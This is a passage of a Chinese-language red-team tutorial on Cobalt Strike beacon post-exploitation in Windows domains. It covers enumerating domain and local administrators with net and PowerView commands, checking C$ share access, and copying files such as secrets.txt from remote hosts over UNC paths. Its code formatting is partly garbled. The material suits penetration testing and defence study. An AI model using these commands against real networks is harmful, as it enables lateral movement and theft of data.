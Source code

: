 *   SharpView .net 实现的 PowerView 功能的脚本

### 获取管理员权限

当我们有了管理员权限之后，我们可以操作计划任务、与 C 盘进行交互、管理进程等等。域控的管理员可以作为任何一台域内主机的管理员进行操作。如果你想检查你当前的用户是否有管理员权限，可以在 beacon 上执行`ls \\hosts\C$`查看是否允许访问 C 盘目录，也可以使用 Powerview 的`powerpick Find-LocalAdminAccess`来查看用户权限。

**举例：**
域：`corp.acme.com`
powershell 执行结果：`fileserver.corp.acme.com`
`ls \\fileserver\C$`：输出该服务器上的 C 盘目录

1.  查找域控管理员

    ```
    # 使用 run 执行 windows 系统命令
    net group "enterprise admins" /DOMAIN
    net group "domain admins" /DOMAIN
    net localgroup "administrator" /DOMAIN
    # 使用 Beacon 的 net 模块
    net group \\DC Domain Admins
    net localgroup \\DC Administrators 
    ```

2.  本地管理员
    本地管理员用户一定是在本地的管理员组中的，这个用户也可能是一个域用户 ```shell

    # beacon net module

    net localgroup \TARGET net localgroup \TARGET group_name

    # 如 net localgroup \TARGET administrators

# powerview

# 针对一台主机进行查询

powershell Get-NetLocalGroup -HostName TARGET

# 针对多台主机进行查询

powershell Invoke-EnumerateLocalAdmin

```
> 注意：Window10 RS1(2016)和 Windows Server2016 要求在查询本地组时需要使用管理员权限，若需要查看那么需要先打一个补丁

如果你有一个本地账户的密码或者密码哈希，如果这个用户是 RID500（系统用户，比如 Administrator、Guest 等）且账户未被禁用，那么你可以在认证后执行远程操作。如果你拥有密码的用户是一个非 RID500 的用户，那么将不能进行认证以进行远程操作，除非你可以通过远程桌面登录。
## 0x03 Agentless Post Exploitation
在获取到一台主机的权限后，不建议再传递 payload 去执行各种操作。可以采取如下办法：
- 使用 UNC 路径来引用其他主机上的文件
```shell
# 从指定的目标主机上列举文件
shell dir \\host\C$\foo
# 拷贝远程主机上的文件到本地
shell copy \\host\C$\foo\secrets.txt
# 将执行 dir /S /B 的结果保存至文件中
shell dir /S /B \\host\c$ > files.txt 
```